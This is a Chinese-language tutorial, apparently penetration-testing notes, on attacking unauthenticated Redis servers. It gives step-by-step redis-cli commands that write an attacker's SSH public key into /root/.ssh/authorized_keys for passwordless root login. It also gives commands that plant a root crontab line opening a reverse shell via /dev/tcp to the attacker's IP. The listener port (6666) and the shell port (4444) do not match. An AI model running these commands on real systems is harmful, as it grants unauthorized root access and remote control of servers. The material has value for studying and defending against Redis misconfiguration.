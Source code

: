 当执行SAVE命令时，Redis会阻塞所有其他客户端连接，直到磁盘快照创建完成。这意味着在SAVE命令执行期间，Redis不会处理任何其他客户端请求。对于大型数据库，SAVE命令可能会花费较长时间，因此，这可能导致服务器暂时不可用。

在生产环境中，通常建议使用BGSAVE命令而不是SAVE命令。BGSAVE命令会在后台异步地创建磁盘快照，而不会阻塞客户端连接。这使得在快照创建过程中，Redis仍然可以正常处理客户端请求。

#### 上传SSH公钥获得SSH登录权限

原理就是在数据库中插入一条数据，将本机的公钥作为value，(key值随意)

然后通过修改数据库的默认路径为`/root/.ssh`和默认的缓冲文件`authorized.keys`

把缓冲的数据保存在文件里，这样就可以在服务器端的`/root/.ssh`下生一个授权的key



首先在自己的电脑上生成key:

```bash
ssh-keygen -t rsa
```

将公钥导入`key.txt`文件（前后用\n\n换行，避免和`Redis`里其他缓存数据混合）
```bash
(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > key.txt
```
1.`echo -e "\n\n"`: echo命令用于在命令行中输出指定的字符串。-e参数表示解释转义字符，如\n表示换行。因此，这部分命令会输出两个连续的换行符。
2.`cat id_rsa.pub`: cat命令用于在命令行中显示文件内容。这里，它显示名为id_rsa.pub的文件的内容。通常，id_rsa.pub文件是一个公钥文件，用于SSH身份验证。
3.`echo -e "\n\n"`: 这部分与第1部分相同，输出两个连续的换行符。
4.`>`: 重定向操作符。它将前面命令的输出重定向到指定的文件。如果文件不存在，它将创建一个新文件。如果文件已存在，它将覆盖文件中的现有内容。
5.`key.txt`: 这是重定向操作符>指向的文件。在这个例子中，前面的命令将把输出写入到名为key.txt的文件中。
综上，这个命令将在key.txt文件中插入两个换行符，然后追加id_rsa.pub文件的内容，并在其后再插入两个换行符。这对于在将多个密钥文件合并到一个文件中时保持可读性是有帮助的。

再把`key.txt`文件内容写入目标主机的缓冲里
```bash
cat key.txt | ./redis-cli -h 192.168.10.153 -x set test
```

连接目标主机的`Redis`，设置`redis`的备份路径为/root/.ssh和保存文件名authorized_keys 

```bash
./redis-cli -h 192.168.1.111
config set dir /root/.ssh
config set dbfilename authorized_keys
keys *
get test	#查看数据是否存在
#将（缓存里的数据key.txt）保存在服务器硬盘上
save
#SSH 连接目标主机，无需密码即可登录
ssh 192.168.1.111

#cat /root/.ssh/authorized_keys 可以查看文件内容，是写入的公钥
```

#### 通过`crontab`定时任务反弹shell

原理是和写公钥一样的，只是变换一下写入的内容和路径，数据库名

```bash
#首先在客户端这边监听一个端口，端口不要冲突
nc -lv 6666

#连接redis，写入反弹shell
./redis-cli -h 192.168.1.111
set test2 "\n\n*/1 * * * * /bin/bash -i>&/dev/tcp/客户端IP/4444 0>&1\n\n"
config set dir /var/spool/cron
config set dbfilename root
save
```
